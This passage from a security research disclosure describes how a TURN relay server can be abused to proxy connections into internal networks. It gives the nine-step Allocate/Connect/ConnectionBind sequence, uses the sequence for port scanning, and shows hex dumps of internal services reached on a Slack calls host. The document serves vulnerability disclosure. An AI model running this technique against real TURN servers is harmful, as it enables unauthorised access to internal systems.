 1. Send an allocate request message
2. Receive an Unauthorized response with NONCE and REALM
3. Send an allocate request with a valid MESSAGE-INTEGRITY by using NONE, REALM, USERNAME and PASSWORD
4. Receive an allocate success response
5. Send a Connect request with `XOR-PEER-ADDRESS` set to an internal IP and port
6. Receive a Connect successful response
7. Create a new data socket and send a ConnectionBind request
8. Receive a ConnectionBind successful response
9. Send and receive data proxied to internal destination


This operation can also be used to find open ports (i.e. perform portscanning over the proxy) by stopping at point 6. During our testing we discovered the following open ports on `127.0.0.1`: 22, 25, 53, 443, 515, 5666, 8500, 8888, 9090 and 9100.

The following are some results when using our toolkit on `slack-calls-orca-bru-kwd4.slack-core.com` to proxy a simple HTTP message:

Message sent:

```
GET / HTTP/1.1
Host: 127.0.0.1

```

Results:

```
127.0.0.1:9100 open
([]uint8) (len=267 cap=288) {
 00000000  48 54 54 50 2f 31 2e 31  20 32 30 30 20 4f 4b 0d  |HTTP/1.1 200 OK.|
 00000010  0a 44 61 74 65 3a 20 57  65 64 2c 20 32 38 20 4d  |.Date: Wed, 28 M|
 00000020  61 72 20 32 30 31 38 20  32 31 3a 30 34 3a 32 37  |ar 2018 21:04:27|
 00000030  20 47 4d 54 0d 0a 43 6f  6e 74 65 6e 74 2d 4c 65  | GMT..Content-Le|
 00000040  6e 67 74 68 3a 20 31 35  30 0d 0a 43 6f 6e 74 65  |ngth: 150..Conte|
 00000050  6e 74 2d 54 79 70 65 3a  20 74 65 78 74 2f 68 74  |nt-Type: text/ht|
 00000060  6d 6c 3b 20 63 68 61 72  73 65 74 3d 75 74 66 2d  |ml; charset=utf-|
 00000070  38 0d 0a 0d 0a 3c 68 74  6d 6c 3e 0a 09 09 09 3c  |8....<html>....<|
 00000080  68 65 61 64 3e 3c 74 69  74 6c 65 3e 4e 6f 64 65  |head><title>Node|
 00000090  20 45 78 70 6f 72 74 65  72 3c 2f 74 69 74 6c 65  | Exporter</title|
 000000a0  3e 3c 2f 68 65 61 64 3e  0a 09 09 09 3c 62 6f 64  |></head>....<bod|
 000000b0  79 3e 0a 09 09 09 3c 68  31 3e 4e 6f 64 65 20 45  |y>....<h1>Node E|
 000000c0  78 70 6f 72 74 65 72 3c  2f 68 31 3e 0a 09 09 09  |xporter</h1>....|
 000000d0  3c 70 3e 3c 61 20 68 72  65 66 3d 22 2f 6d 65 74  |<p><a href="/met|
 000000e0  72 69 63 73 22 3e 4d 65  74 72 69 63 73 3c 2f 61  |rics">Metrics</a|
 000000f0  3e 3c 2f 70 3e 0a 09 09  09 3c 2f 62 6f 64 79 3e  |></p>....</body>|
 00000100  0a 09 09 09 3c 2f 68 74  6d 6c 3e                 |....</html>|
}
```


```
127.0.0.1:9090 open
([]uint8) (len=1170 cap=1280) {
 00000000  48 54 54 50 2f 31 2e 31  20 32 30 30 20 4f 4b 0d  |HTTP/1.1 200 OK.|
 00000010  0a 43 6f 6e 74 65 6e 74  2d 54 79 70 65 3a 20 74  |.Content-Type: t|
 00000020  65 78 74 2f 68 74 6d 6c  0d 0a 43 6f 6e 74 65 6e  |ext/html..Conten|
 00000030  74 2d 4c 65 6e 67 74 68  3a 20 31 31 30 34 0d 0a  |t-Length: 1104..|
 00000040  0d 0a 3c 3f 78 6d 6c 20  76 65 72 73 69 6f 6e 3d  |..<?xml version=|
 00000050  22 31 2e 30 22 20 65 6e  63 6f 64 69 6e 67 3d 22  |"1.0" encoding="|
 00000060  55 54 46 2d 38 22 3f 3e  0a 3c 21 44 4f 43 54 59  |UTF-8"?>.<!DOCTY|
 00000070  50 45 20 68 74 6d 6c 20  50 55 42 4c 49 43 20 22  |PE html PUBLIC "|
 00000080  2d 2f 2f 57 33 43 2f 2f  44 54 44 20 58 48 54 4d  |-//W3C//DTD XHTM|
 00000090  4c 20 31 2e 30 20 53 74  72 69 63 74 2f 2f 45 4e  |L 1.0 Strict//EN|
 000000a0  22 0a 20 20 20 20 22 68  74 74 70 3a 2f 2f 77 77  |".    "http://ww|
 000000b0  77 2e 77 33 2e 6f 72 67  2f 54 52 2f 78 68 74 6d  |w.w3.org/TR/xhtm|
 000000c0  6c 31 2f 44 54 44 2f 78  68 74 6d 6c 31 2d 73 74  |l1/DTD/xhtml1-st|
```